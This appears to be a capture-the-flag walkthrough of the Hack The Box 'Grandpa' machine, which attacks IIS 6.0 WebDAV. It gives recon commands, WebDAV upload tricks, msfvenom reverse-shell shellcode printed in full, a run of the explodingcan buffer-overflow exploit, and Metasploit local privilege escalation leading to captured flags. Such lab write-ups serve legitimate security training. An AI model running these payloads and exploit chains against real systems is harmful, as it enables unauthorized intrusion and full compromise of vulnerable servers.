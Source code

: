 #webdav #Explodingcan

# Reconnaissance
```bash
# Automatic tools
# nmapAutomator (https://github.com/21y4d/nmapAutomator)
cd /usr/local/bin/
sudo ./nmapAutomator.sh --host 10.10.10.14 --type All
# Manually
nmap -sV -sC -A 10.10.10.14 -Pn 
```

```txt
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-18 15:14 CST
Nmap scan report for 10.10.10.14
Host is up (0.24s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-webdav-scan: 
|   WebDAV type: Unknown
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|   Server Date: Mon, 18 Jul 2022 07:14:33 GMT
|   Server Type: Microsoft-IIS/6.0
|_  Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
|_http-title: Under Construction
|_http-server-header: Microsoft-IIS/6.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

# Enumeration
## Enumerate on 80
https://0xdf.gitlab.io/2020/05/28/htb-grandpa.html
let's reviewing the 80 port.

![[Grandpa-01.png]]

This site is under construction.

we will gobuster to enumerate folders but no useful information. 
```bash
gobuster dir -u http://10.10.10.14 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt
```


Due to public options of web server, we try use it to upload shell.txt
![[Grandpa-03.png]]


![[Grandpa-04.png]]

we will see only images folder appear. and directory listing is denied.

![[Grandpa-05.png]]

## Upload file test: davtest
And we see nmap output "Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH", This reminds me a lot of 10.10.10.15 [Granny](https://0xdf.gitlab.io/2019/03/06/htb-granny.html#webdav), and given all the WebDAV in the `nmap` output, I ran`davtest`. Unlike in Granny, nothing is enabled:

```bash
davtest -url http://10.10.10.14
```

![[Grandpa-06.png]]


```bash
python3 -m http.server 80
# Binary mode
curl -X PUT http://10.10.10.14/shell.txt --data-binary @shell.txt
# change the file extension
curl -X MOVE --header 'Destination:http://10.10.10.14/shell.php' 'http://10.10.10.14/shell.txt'
```

# EXPLOITATION
## 41738 python Fail
Using SearchSploit to find exploits with WebDAV affecting IIS version 6:

```bash
searchsploit IIS 6.0 WebDAV
searchsploit -x 41738
searchsploit -m 41738
```

![[Grandpa-07.png]]

A very common thing in OSCP is finding an exploit script like this , and needing to modify it to put it your own shellcode to get a shell. I will use msfvenom to create the shellcode:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=3333 -f python -v shellcode
python 41738.py
```

```txt
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=3333 -f python -v shellcode
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of python file: 1823 bytes
shellcode =  b""
shellcode += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0"
shellcode += b"\x64\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b"
shellcode += b"\x72\x28\x0f\xb7\x4a\x26\x31\xff\xac\x3c\x61"
shellcode += b"\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2"
shellcode += b"\x52\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11"
shellcode += b"\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01\xd3"
shellcode += b"\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6"
shellcode += b"\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75"
shellcode += b"\xf6\x03\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b"
shellcode += b"\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c"
shellcode += b"\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24"
shellcode += b"\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a"
shellcode += b"\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68"
shellcode += b"\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff"
shellcode += b"\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
shellcode += b"\x29\x80\x6b\x00\xff\xd5\x50\x50\x50\x50\x40"
shellcode += b"\x50\x40\x50\x68\xea\x0f\xdf\xe0\xff\xd5\x97"
shellcode += b"\x6a\x05\x68\x0a\x0a\x0e\x03\x68\x02\x00\x0d"
shellcode += b"\x05\x89\xe6\x6a\x10\x56\x57\x68\x99\xa5\x74"
shellcode += b"\x61\xff\xd5\x85\xc0\x74\x0c\xff\x4e\x08\x75"
shellcode += b"\xec\x68\xf0\xb5\xa2\x56\xff\xd5\x68\x63\x6d"
shellcode += b"\x64\x00\x89\xe3\x57\x57\x57\x31\xf6\x6a\x12"
shellcode += b"\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c\x01\x01"
shellcode += b"\x8d\x44\x24\x10\xc6\x00\x44\x54\x50\x56\x56"
shellcode += b"\x56\x46\x56\x4e\x56\x56\x53\x56\x68\x79\xcc"
shellcode += b"\x3f\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff\x30"
shellcode += b"\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2"
shellcode += b"\x56\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c"
shellcode += b"\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f"
shellcode += b"\x6a\x00\x53\xff\xd5"
```

![[Grandpa-08.png]]

![[Grandpa-10.png]]

But after reading and compare, I found exploit requires some specifics things about the shellcode, which let me to the next attempt.

## Explodingcan 
By research, we will find this explodingcan
https://github.com/danigargu/explodingcan
And it said The shellcode must be in alphanumeric format due to the limitations of the bug. For example we can use `msfvenom` (metasploit) with the `alpha_mixed` encoder.

```bash
msfvenom -p windows/meterpreter/reverse_tcp -f raw -v sc -e x86/alpha_mixed LHOST=10.10.14.3 LPORT=3333 >shellcode
```

```bash
# git clone
git clone https://github.com/danigargu/explodingcan 
# install the requirement
pip install requests
# run the exploit
python explodingcan.py http://10.10.10.14 shellcode
# msfconsole
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 10.10.14.3
set lport 3333
run
```

```bash
# run the exploit
python explodingcan.py http://10.10.10.14 shellcode
```

![[Grandpa-11.png]]

```bash
# meterpreter shell
getuid
getsystem
```

![[Grandpa-12.png]]

### Metasploit Privilege Escalation

```bash
# Ctrl + Z back our handler
use post/multi/recon/local_exploit_suggester
set session 1
run
```

![[Grandpa-13.png]]

```txt
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.14 - Collecting local exploits for x86/windows...
[*] 10.10.10.14 - 38 exploit checks are being tried...
[+] 10.10.10.14 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.14 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.14 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed

```

And we will build up another handler (port 5555).

```bash
use multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 10.10.14.3
set lport 5555
run
```

And load exploit module:
```bash
# metasploit session 1
use exploit/windows/local/ms14_070_tcpip_ioctl
show options
set session 1
set lhost 10.10.14.3
set lport 5555
run
```

![[Grandpa-15.png]]

```bash
# meterpreter shell
getuid
shell
# get the flag
cd C:\Documents and Settings
type harry\desktop\user.txt
# bdff5ec67c3cff017f2bedc146a5d869
type administrator\desktop\root.txt
# 9359e905a2c35f861f6a57cecf28bb7b
```

![[Grandpa-16.png]]
